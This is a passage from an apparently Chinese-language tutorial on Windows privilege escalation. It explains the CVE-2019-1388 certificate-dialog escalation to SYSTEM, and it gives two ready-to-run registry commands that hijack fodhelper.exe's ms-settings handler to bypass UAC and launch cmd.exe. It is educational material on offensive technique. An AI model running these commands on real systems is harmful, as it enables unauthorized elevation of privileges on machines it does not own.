 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200130100211.png-water_print](assets/1699411459-5be94991c426a26ca4bec74a201c7f14.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200130100211.png-water_print")

还有一个特别典型的例子就是：`CVE-2019-1388` 证书提权漏洞。

通过点击「展示证书发行者的详细信息」链接会触发 `consent.exe` 以 `SYSTEM` 权限打开浏览器访问此链接，然后此浏览器就会有 `SYSTEM` 权限。通过保存该浏览页面，会弹出微软的资源管理器，在资源管理器中邮件打开 `cmd.exe` 程序，就会继承浏览器的 `SYSTEM` 权限，由此就完成了由普通用户到 `NT AUTHORITY\SYSTEM` 用户的提权。

### [](#73-%E5%88%A9%E7%94%A8%E6%B3%A8%E5%86%8C%E8%A1%A8-bypass-uac)7.3 利用注册表 bypass UAC

一些高权限的程序会调用 `HKCR:\` 下的键值。

流程：

1.  通过修改 `HKCU:\` 下面的键值同步修改 `HKCR:\` 下的键值。
2.  把原本的键值改为 `cmd.exe` 等 shell 程序。
3.  如果高权限的程序在运行过程中调用此处被修改过的键值，就会以高权限启动我们设定的程序。
4.  如此便实现了 Bypass UAC。

常见的有：eventvwr.exe、fodhelper.exe，下面以 fodhelper.exe 为例：

-   Path：`C:\Windows\system32\fodhelper.exe`
-   REG：`HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command`

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /d C:\Windows\System32\cmd.exe /f<br>reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_DWORD /d 00000000 /f<br>``` |

在 msf 中已经集成了相应的利用方式。

### [](#74-uacme)7.4 UACME
